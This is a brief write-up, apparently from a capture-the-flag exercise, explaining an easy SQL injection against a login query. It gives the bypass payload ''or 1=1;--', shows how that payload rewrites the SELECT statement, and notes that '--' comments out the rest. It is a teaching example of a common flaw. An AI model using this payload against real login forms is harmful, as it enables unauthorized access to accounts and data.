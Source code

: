 # SQLI
## writeup

easy sql injection inject this

```
'or 1=1;--
```

the query looks like this

```
SELECT * FROM users WHERE username = '${username}' AND password = ''or 1=1;--'
```

note: 
```
the -- represent a comment in sql so the rest of the code will be like a command
```
